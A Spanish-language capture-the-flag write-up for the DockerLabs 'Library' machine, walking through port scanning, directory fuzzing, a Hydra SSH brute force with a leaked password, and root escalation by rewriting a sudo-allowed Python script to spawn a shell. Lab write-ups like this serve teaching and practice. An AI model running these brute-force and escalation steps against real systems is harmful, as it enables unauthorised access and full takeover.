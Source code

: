 
---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```


![Despliegue de la máquina](Imágenes/2025-05-14_08-28.png)

---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```


![Ping a la máquina vulnerable](/Imágenes/Capturas.png)

---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


![Escaneo de puertos](/Imágenes/Capturas_1.png)

---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


![Servicios detectados](/Imágenes/Capturas_2.png)

---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


![Página por defecto de Apache](/Imágenes/Capturas_3.png)

---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


![Directorios descubiertos](/Imágenes/Capturas_4.png)

---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


![Cadena sospechosa encontrada](/Imágenes/Capturas_5.png)

---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing javascript](/Imágenes/Capturas_6.png)

---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing jquery](/Imágenes/Capturas_7.png)
---
![Resultados adicionales](/Imágenes/Capturas_8.png)

---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

![Credenciales encontradas](/Imágenes/Capturas_9.png)

---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Permisos sudo sobre script.py](/Imágenes/Capturas_10.png)

---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉

![Shell como root](/Imágenes/Capturas_11.png)

---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
